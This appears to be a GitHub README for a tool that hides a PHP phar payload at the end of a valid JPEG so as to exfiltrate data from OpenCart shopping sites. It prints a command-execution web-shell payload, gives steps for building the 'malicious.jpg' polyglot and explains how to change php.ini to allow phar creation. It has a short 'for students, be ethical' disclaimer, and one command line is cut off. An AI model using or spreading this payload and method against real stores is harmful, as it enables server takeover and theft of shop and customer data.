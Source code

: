 # JPEG PHAR OpenCart-Malware generator

This is a simple tool to add a malicious phar payload at the end of a valid jpeg image to exfilter data from an Opencart shopping system!

It is based on a fork of the Repo Sarapuce/jpeg-phar-fusion.

It is only meant to be a learning to for Cybersecurity Student! Be Ethical!

## Requirements
- Python 3
- Php (Tested with php 8)

## Usage

2. Choose a php payload finishing by `__HALT_COMPILER();` for example :

`<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>`

3. Create the payload with the script

`python3 phar_creator.py '

4. The generated PHAR/JPEG polyglot file is called `malicious.jpg`

5. Run "php include.php" to see the code executed!!


## It doesn't work 😡
Do you have the error 
> PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "payload.phar" disabled by the php.ini setting phar.readonly

You need to enable the phar creation in php.ini

To locate your php.ini 

`php --ini`

Then edit this line in your file

`;phar.readonly = Off`

into

`phar.readonly = Off`
